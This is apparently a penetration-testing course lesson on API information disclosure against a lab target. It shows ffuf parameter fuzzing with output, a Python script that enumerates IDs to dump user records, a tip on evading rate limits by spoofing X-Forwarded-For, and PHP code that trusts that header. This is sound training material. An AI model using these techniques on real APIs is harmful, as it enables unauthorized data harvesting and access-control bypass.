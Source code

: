 # Information Disclosure (with a twist of SQLi)

As already discussed, security-related inefficiencies or misconfigurations in a web service or API can result in information disclosure.

When assessing a web service or API for information disclosure, we should spend considerable time on fuzzing.

***

## Information Disclosure through Fuzzing

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing an API residing in `http://<TARGET IP>:3003`.

Maybe there is a parameter that will reveal the API's functionality. Let us perform parameter fuzzing using _ffuf_ and the [burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt) list, as follows.

```shell-session
$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3003/?FUZZ=test_value
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorpassword                [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorurl                     [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [41/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorc                       [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [42/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorid                      [Status: 200, Size: 38, Words: 7, Lines: 1]
:: Progress: [43/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Erroremail                   [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [44/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errortype                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [45/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorusername                [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [46/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorq                       [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [47/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errortitle                   [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [48/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errordata                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [49/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errordescription             [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [50/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorfile                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [51/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errormode                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [52/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors                       [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [53/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errororder                   [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [54/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorcode                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [55/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorlang                    [Status: 200, Size: 19, Words: 4, Lines: 1]
```

We notice a similar response size in every request. This is because supplying any parameter will return the same text, not an error like 404.

Let us filter out any responses having a size of 19, as follows.

```shell-session
$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19

 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3003/?FUZZ=test_value
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 19
________________________________________________

:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 id                      [Status: 200, Size: 38, Words: 7, Lines: 1]
:: Progress: [57/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 
:: Progress: [187/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [375/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [567/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [755/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [952/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [1160/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 
:: Progress: [1368/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 
:: Progress: [1573/2588] :: Job [1/1] :: 1720 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [1752/2588] :: Job [1/1] :: 1437 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [1947/2588] :: Job [1/1] :: 1625 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2170/2588] :: Job [1/1] :: 1777 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2356/2588] :: Job [1/1] :: 1435 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2567/2588] :: Job [1/1] :: 2103 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

It looks like _id_ is a valid parameter. Let us check the response when specifying _id_ as a parameter and a test value.

```shell-session
$ curl http://<TARGET IP>:3003/?id=1
[{"id":"1","username":"admin","position":"1"}]
```

Find below a Python script that could automate retrieving all information that the API returns (save it as `brute_api.py`).

```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```

* We import two modules _requests_ and _sys_. _requests_ allows us to make HTTP requests (GET, POST, etc.), and _sys_ allows us to parse system arguments.
* We define a function called _brute_, and then we define a variable called _value_ which has a range of _10000_. _try_ and _except_ help in exception handling.
* _url = sys.argv\[1]_ receives the first argument.
* _r = requests.get(url + '/?id='+str(val))_ creates a response object called _r_ which will allow us to get the response of our GET request. We are just appending _/?id=_ to our request and then _val_ follows, which will have a value in the specified range.
* _if "position" in r.text:_ looks for the _position_ string in the response. If we enter a valid ID, it will return the position and other information. If we don't, it will return _\[]_.

The above script can be run, as follows.

```shell-session
$ python3 brute_api.py http://<TARGET IP>:3003
Number found! 1
[{"id":"1","username":"admin","position":"1"}]
Number found! 2
[{"id":"2","username":"HTB-User-John","position":"2"}]
...
```

Now you can proceed to the end of this section and answer the first question!

**TIP**: If there is a rate limit in place, you can always try to bypass it through headers such as X-Forwarded-For, X-Forwarded-IP, etc., or use proxies. These headers have to be compared with an IP most of the time. See an example below.

```php
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
    header("HTTP/1.1 401 Unauthorized");
}
else
{
  print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
```

The issue here is that the code compares the _HTTP\_X\_FORWARDED\_FOR_ header to the possible _whitelist_ values, and if the _HTTP\_X\_FORWARDED\_FOR_ is not set or is set without one of the IPs from the array, it'll give a 401. A possible bypass could be setting the _X-Forwarded-For_ header and the value to one of the IPs from the array.

***

## Information Disclosure through SQL Injection

SQL injection vulnerabilities can affect APIs as well. That _id_ parameter looks interesting. Try submitting classic SQLi payloads and answer the second question.
